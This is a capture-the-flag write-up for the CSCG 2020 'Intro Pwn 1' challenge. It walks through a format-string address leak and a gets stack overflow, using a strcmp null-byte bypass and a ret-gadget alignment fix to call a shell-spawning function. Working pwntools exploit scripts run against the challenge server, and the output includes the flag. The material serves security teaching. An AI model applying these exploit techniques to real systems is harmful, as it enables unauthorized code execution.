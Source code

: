 # Intro Pwn 1
This was one of the pwnable challenges of the CSCG 2020.
We're given a binary and its source code to work with.

There are 3 important Functions defined in the source :
```c
void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n")
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}
```

```c
void AAAAAAAA() {
    char read_buf[0xff];

    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```

```c
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```
The first two are called by main and the third function is our goal, because
it executes `system("/bin/sh")` which gives us a shell to cat the flag with.
(also the capitalised WIN in the name gives you a clue).

____
## Exploitation ideas

First of all I ran `checksec` on it to know whether or not we deal with a aslr binary...

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   80 Symbols     No       0               2       pwn1
```
... and we sure do.

Then I looked at the functions :
* `welcome` calls `gets` which is always a bad sign, but it did not seem to be exploitable at this time, because we don't know the adress of `WINgardium_leviosa`
* `welcome` also called `printf` with our input, which lets us leak (or even write to) values on the stack through a format string exploit.
* `AAAAAAAA` also calls `gets` but compares the output of it and only returns if we enter the right input

(`gets` can give us control over the instruction pointer, by inputting more, that the buffer bounds,
  which will overwrite the stack, and if we write enough, will overwrite the return pointer, which will
  be poped and jumped to if we return. The `exit` function doesn't return, which causes the current
  function to also not return, and thus not pop our value. So we have to avoid a call to that function if
  we want to exploit this)

## Exploitation
So the first exploitable thing is the format string. We dont have any address we can write to yet, so the
only thing we can do is leak. We somehow need to get the address of `WINgardium_leviosa`. A way how we
can do this is by somehow leaking some address pointing to code (a return value or something like that)
and then adding the needed offset to get to the `WINgardium_leviosa` function.

So the path is clear. I first ran the binary in gdb and inputted a standard leaking format string
`%p|%p|%p|%p|...|%p` as the name.
As a result I got :
```bash
Enter your witch name:
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%
p|%p|%p|%p|%p|%p|%p|%p|%p|
┌───────────────────────┐
│ You are a Hufflepuff! │
└───────────────────────┘
0x7ffff7f60583|(nil)|0x7ffff7e90567|0x4c|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x
70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c702
57c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c7
0257c70257c70|0x70257c70257c7025|0x7f007c70257c|(nil)|(nil)|(nil)|(nil)|(nil)|0x7ffff7fcf218|(nil)|0x20000
00000|(nil)|(nil)|0x7fff00000000|(nil)|0x24c9464ad16a3200|(nil)|0x5555555549e9|0x7fffffffdd80|0x555555554b
21|0x7fffffffde78|0x100000000|(nil)|0x7ffff7dc7023|0x71| enter your magic spell:

```
The code section is `0x555555554000  -  0x555555555000`. So in our leak we are looking for adresses
matching that range. The first address we find matching the range is `0x555555554b21` (being the 39th
leak)
With gdb I looked what this address was and found out that this is probably the return address of the
current function.
```
pwndbg> x/10i 0x555555554b21 - 5
   0x555555554b1c <main+40>:    call   0x555555554a23 <welcome>
   0x555555554b21 <main+45>:    mov    eax,0x0
   0x555555554b26 <main+50>:    call   0x555555554a89 <AAAAAAAA>
```
We now need to calculate the offset of the `WINgardium_leviosa` function to our leak.
```
pwndbg> p WINgardium_leviosa
$1 = {<text variable, no debug info>} 0x5555555549ec <WINgardium_leviosa>
```

```python
>>> hex(0x5555555549ec - 0x555555554b21)
'-0x135'
```

The next exploitable vulnerability, is the `gets` call in the `AAAAAAAA` function. But to get to the
return we need to get around the check of the input.
The `strcmp` function compares two NULL terminated C strings.
The `gets` function reads input until we send a newline character. This newline character is then
replaced by a NULL byte.
So the bug here is, that we can send a NULL byte without `gets` stopping the reading. `strcmp` then
ignores everything after this NULL byte, as it thinks, that the string is terminated here. So we can send
input longer than the `Expelliarmus` string by starting the string with `Expelliarmus\0`.
From this point on I used a python script using [pwntools](https://pypi.org/project/pwntools/).
```python
from pwn import *

p = process("./pwn1")
p.sendline("|".join(["%p"]*70)) # Format string exploit

p.readline() # reading the Hufflepuff banner
p.readline()
p.readline()
p.readline()

leaks = p.readline().decode("utf-8").split("|") # read the leaked values
print(leaks)
leak_addr = int(leaks[38],16) # get the leaked return address
print(hex(leak_addr))

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa
print(hex(win))

input() # stop the script until we press enter to attach gdb
p.sendline(b"Expelliarmus\0" + cyclic(400))

p.interactive()
```
If we run this script (with `gdb` attached), we can see, that the script crashes, because it wants to
return to `0x7ffefcb33bf8` (`cnaa` as a string). We can now locate that string in our input and place the
address of `WINgardium_leviosa` there to call it when trying to return.

```python
...

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa
print(hex(win))

input() # stop the script until we press enter to attach gdb
p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(win))

p.interactive()
```
This script works localy and you get a shell, but if you try to exploit the server with that you get a
EOF before the shell is spawned. This most probably means, that the remote process crashed. This can
sometimes happen, when the stack is not properly aligned. To fix this we need to pop one (or more) values
from the stack. And this can be done, by simply adding the address of a ret instruction in front of the
win address. This will execute this ret instruction and pop the next value (the win address) to jump to,
with the stack having one element less.

For the ret instruction I used the one at the end of `AAAAAAAA` and calculated the offset to our leak
(-0x2e) and ajusted the script :
```python
from pwn import *

p = remote("hax1.allesctf.net",9100) # connect to the challenge sever

p.sendline("|".join(["%p"]*70)) # Format string exploit

p.readline() # reading the Hufflepuff banner
p.readline()
p.readline()
p.readline()

leaks = p.readline().decode("utf-8").split("|") # read the leaked values

leak_addr = int(leaks[38],16) # get the leaked return address

ret = leak_addr - 0x2e # calculate the address of an ret instruction

win = leak_addr - 0x135 # calculate the address of WINgardium_leviosa

p.sendline(b"Expelliarmus\0" + b"A" * cyclic_find(b"cnaa") + p64(ret) + p64(win))

p.interactive()
```

```bash
$ python pwnit.py
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[*] Switching to interactive mode
~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_PRACTICE_MORE}
```
